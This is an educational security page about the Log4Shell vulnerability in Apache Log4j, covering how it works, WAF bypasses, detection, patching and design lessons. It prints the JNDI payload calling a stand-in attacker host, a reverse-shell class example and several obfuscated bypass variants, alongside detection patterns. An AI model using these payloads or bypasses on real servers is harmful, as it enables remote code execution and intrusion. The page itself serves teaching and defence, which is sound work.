



# Log4Shell (CVE-2021-44228)

On December 9, 2021, a critical zero-day vulnerability was publicly disclosed in Apache Log4j 2, the most widely used Java logging library. The vulnerability allowed **unauthenticated remote code execution** through a simple string injected into any field that gets logged — a username, a User-Agent header, a search query, an error message. Anywhere Log4j processed attacker-controlled input, the attacker could execute arbitrary code on the server.

CVSS score: **10.0** (maximum). Exploitation difficulty: **trivial**. Blast radius: **billions of devices**.

**Related**: [OWASP A03: Injection](/security/owasp/a03-injection) | [Supply Chain Security](/security/supply-chain/) | [Security Overview](/security/)

---

## The Vulnerability in One Sentence

Log4j's message lookup feature would resolve `${jndi:ldap://attacker.com/exploit}` strings in log messages, causing the server to fetch and execute a remote Java class from an attacker-controlled LDAP server.

::: danger The Exploit Is One Line
```
${jndi:ldap://attacker.com/exploit}
```
Place this string in any input that gets logged — a login form username, an HTTP header, a search box, an API request body — and if the server uses vulnerable Log4j, it will connect to `attacker.com`, download a Java class, and execute it. That is remote code execution with zero authentication.
:::

---

## How It Works

### The Attack Chain



### Step-by-Step Technical Breakdown

**Step 1 — String interpolation**: Log4j 2 supports "message lookups" — the ability to resolve variables inside log messages. This was designed for convenience:

```java
// Intended usage: resolve environment variables in log messages
logger.info("Running on Java ${java:version}");
// Output: "Running on Java Java version 17.0.1"

// The JNDI lookup was also supported
logger.info("${jndi:ldap://internal-server/config}");
// This was meant for loading config from LDAP directories
```

**Step 2 — JNDI resolution**: The Java Naming and Directory Interface (JNDI) is a Java API for looking up objects via naming/directory services. Log4j supported JNDI lookups to LDAP, RMI, DNS, and other protocols. When it encountered `${jndi:ldap://...}`, it made an outbound LDAP connection.

**Step 3 — Remote class loading**: The LDAP server response can instruct the Java application to load a class from an arbitrary URL. The JVM's class loading mechanism fetches the class, deserializes it, and executes its static initializer — achieving arbitrary code execution.

```java
// What the attacker's Exploit.class looks like
public class Exploit {
    static {
        // This runs automatically when the class is loaded
        try {
            Runtime.getRuntime().exec("bash -c {echo,BASE64_ENCODED_REVERSE_SHELL}|{base64,-d}|{bash,-i}");  // [!code error]
        } catch (Exception e) {
            // Silently fail
        }
    }
}
```

---

## Why It Was So Devastating

### Log4j Is Everywhere



Key facts:
- Log4j 2 is used by an estimated **35,000+ Java packages** (8% of Maven Central)
- It is a **transitive dependency** — many applications include it without developers knowing
- Affected versions: **2.0-beta9 through 2.14.1**
- The vulnerability existed for **8 years** before discovery (introduced in 2013)

### Attack Surface Was Unlimited

Any input that reaches a log statement is an attack vector:

```java
// HTTP headers
logger.info("Request from: " + request.getHeader("User-Agent"));       // [!code error]
logger.info("Referer: " + request.getHeader("Referer"));               // [!code error]
logger.info("X-Forwarded-For: " + request.getHeader("X-Forwarded-For")); // [!code error]

// Form inputs
logger.warn("Login failed for user: " + username);                     // [!code error]

// API parameters
logger.debug("Search query: " + searchQuery);                          // [!code error]

// Error messages
logger.error("Invalid product ID: " + productId);                      // [!code error]

// Even DNS hostnames — attackers registered domains like:
// ${jndi:ldap://x.attacker.com/a}.example.com
```

---

## WAF Bypass Techniques

Initial WAF rules blocking `${jndi:` were quickly bypassed with Log4j's nested lookup syntax:

```
// Basic payload
${jndi:ldap://attacker.com/a}

// Bypass: nested lookups to break pattern matching
${${lower:j}ndi:ldap://attacker.com/a}
${${lower:j}${lower:n}${lower:d}${lower:i}:ldap://attacker.com/a}

// Bypass: URL encoding
${jndi:ldap://attacker.com/a}  →  %24%7Bjndi%3Aldap%3A%2F%2Fattacker.com%2Fa%7D

// Bypass: environment variable substitution
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}

// Bypass: Unicode variations
${jnd${upper:ı}:ldap://attacker.com/a}

// Bypass: using different protocols
${jndi:rmi://attacker.com/a}
${jndi:dns://attacker.com/a}
${jndi:iiop://attacker.com/a}
```

::: warning Why WAFs Are Not Sufficient
The number of obfuscation variants is effectively infinite because Log4j processes nested lookups recursively. Every WAF rule became a game of whack-a-mole. WAFs are a speed bump, not a fix. The only real fix is patching the library.
:::

---

## Detection

### Identifying Vulnerable Systems

```bash
# Search for Log4j JARs on the filesystem
find / -name "log4j-core-*.jar" 2>/dev/null

# Check inside fat JARs / uber JARs (Log4j may be embedded)
find / -name "*.jar" -exec sh -c \
  'unzip -l "$1" 2>/dev/null | grep -q "JndiLookup.class" && echo "VULNERABLE: $1"' \
  _ {} \;

# Check running Java processes for loaded Log4j classes
for pid in $(pgrep -f java); do
  ls -la /proc/$pid/fd 2>/dev/null | grep log4j
done

# Use the Log4j scanner tool
# https://github.com/google/log4jscanner
log4jscanner /path/to/application
```

### Detecting Exploitation Attempts

```bash
# Search application logs for JNDI lookup patterns
# Note: attackers use obfuscation, so search broadly
grep -rEi '\$\{.*j.*n.*d.*i.*:' /var/log/

# Search for base64-encoded payloads in logs
grep -rE '\$\{(lower|upper|env|date|sys)' /var/log/

# Monitor for outbound LDAP/RMI connections (unusual from app servers)
# These protocols should not normally be used for outbound connections
ss -tnp | grep -E ':(389|636|1099)\b'
```

---

## The Fix

### Patching (The Real Fix)

| Version | Status |
|---------|--------|
| **2.17.1+** | Fully patched (recommended) |
| **2.16.0** | JNDI disabled by default, removed message lookups |
| **2.15.0** | Partial fix (restricted JNDI to localhost, still bypassable via CVE-2021-45046) |
| **2.12.3** | Backport for Java 7 |
| **2.3.1** | Backport for Java 6 |

```xml
<!-- Maven: Update to patched version -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version>   <!-- Minimum safe version -->
</dependency>
```

### Mitigation (If You Cannot Patch Immediately)

```bash
# Option 1: Remove the JndiLookup class from the classpath
# This surgically removes the vulnerable code
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# Option 2: Set JVM flag to disable lookups (2.10+ only)
java -Dlog4j2.formatMsgNoLookups=true -jar myapp.jar

# Option 3: Environment variable (2.10+ only)
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

::: tip The Correct Fix Pattern
```java
// BEFORE (vulnerable): Concatenating user input into log message
logger.info("User login: " + username);   // [!code error]

// AFTER (safe): Using parameterized logging
// Log4j will NOT perform lookups on parameter values
logger.info("User login: {}", username);  // [!code highlight]
```
Parameterized logging prevents lookup expansion on user-controlled input. This is also faster because string concatenation is avoided when the log level is disabled.
:::

---

## Real-World Impact Timeline



::: warning Four CVEs in Three Weeks
The initial fix (2.15.0) was itself vulnerable. It took **four attempts** to fully patch Log4j. This is common with complex vulnerabilities — the first patch often addresses the reported vector but misses variants. Always update to the latest patch, not just the first one.
:::

---

## Architectural Lessons

### Why Logging Libraries Should Not Be Turing-Complete

Log4j's message lookup feature turned a logging library into an **expression evaluator** — capable of resolving environment variables, system properties, JNDI lookups, and nested expressions. This violates a fundamental principle:

> **Libraries should do one thing.** A logging library should format and write log messages. It should not fetch remote objects, resolve directory services, or evaluate nested expressions.

### Defense in Depth Applied to Log4Shell

| Layer | Control | Effectiveness |
|-------|---------|---------------|
| **Application** | Parameterized logging (`logger.info("{}", input)`) | Prevents exploitation entirely |
| **Dependency** | Update Log4j to 2.17.1+ | Removes the vulnerability |
| **Network** | Block outbound LDAP/RMI from application servers | Prevents Stage 2 (LDAP fetch) but not detection |
| **JVM** | Disable remote class loading (`com.sun.jndi.ldap.object.trustURLCodebase=false`) | Default in Java 8u191+, mitigates exploitation |
| **WAF** | Pattern-match JNDI strings | Easily bypassed, buys time only |
| **Monitoring** | Alert on outbound LDAP connections from app servers | Detects exploitation attempts |
| **SBOM** | Know which services use Log4j | Enables rapid triage during incident |

::: tip The SBOM Advantage
Organizations with Software Bills of Materials (SBOMs) could answer "which of our services use Log4j?" in minutes. Organizations without SBOMs took days or weeks to audit their entire estate. See [Supply Chain Security](/security/supply-chain/) for SBOM implementation.
:::

---

## Key Takeaways

| Lesson | Implication |
|--------|------------|
| Transitive dependencies are attack surface | You are responsible for every library your libraries depend on |
| Logging user input is dangerous | Any user-controlled string that reaches a log statement is a potential injection vector |
| WAFs are not fixes | Pattern matching cannot keep up with recursive obfuscation |
| Patching takes multiple iterations | First patch is often incomplete — stay on the latest version |
| SBOMs save time during incidents | You cannot patch what you cannot find |
| Feature creep creates attack surface | Log4j's expression language was a feature nobody asked for in a logging library |

---

## Further Reading

- [OWASP A03: Injection](/security/owasp/a03-injection) — the injection vulnerability class that Log4Shell belongs to
- [Supply Chain Security](/security/supply-chain/) — SBOMs, dependency scanning, and why knowing your dependencies matters
- [Advanced Injection Attacks](/security/exploits/injection-advanced) — other injection types including SSTI, NoSQL, and command injection
- [Exploits Overview](/security/exploits/) — taxonomy and context for all exploit case studies
